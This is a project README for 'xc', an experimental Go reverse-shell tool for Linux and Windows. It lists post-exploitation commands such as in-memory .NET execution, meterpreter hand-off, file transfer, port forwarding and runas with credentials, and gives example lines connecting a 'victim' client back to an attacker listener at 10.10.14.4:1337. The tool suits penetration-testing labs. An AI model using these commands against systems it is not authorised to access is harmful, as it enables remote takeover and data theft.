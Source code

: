 # xc

Netcat like reverse shell for Linux & Windows. This is still experimental - pull requests are welcome :)

## Features

### Windows

``` 
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !runasps <username> <password> <domain>
   - restart xc with the specified user using powershell
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !vulns
   - checks for common vulnerabilities
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !powershell
 !net <sample.exe> <arg1> <arg2> ...   
   - Runs a .NET assembly from the server on the client without touching disk
 !exit
``` 

### Linux

```
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !ssh <port>
 !exit
``` 

## Examples

- Linux Attacker:	`xc -l -p 1337`			    (Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	(Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

``` 
go get golang.org/x/sys/windows
go get golang.org/x/text/encoding/unicode
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
``` 

Windows:
```
go build
```

Linux:
```
make
```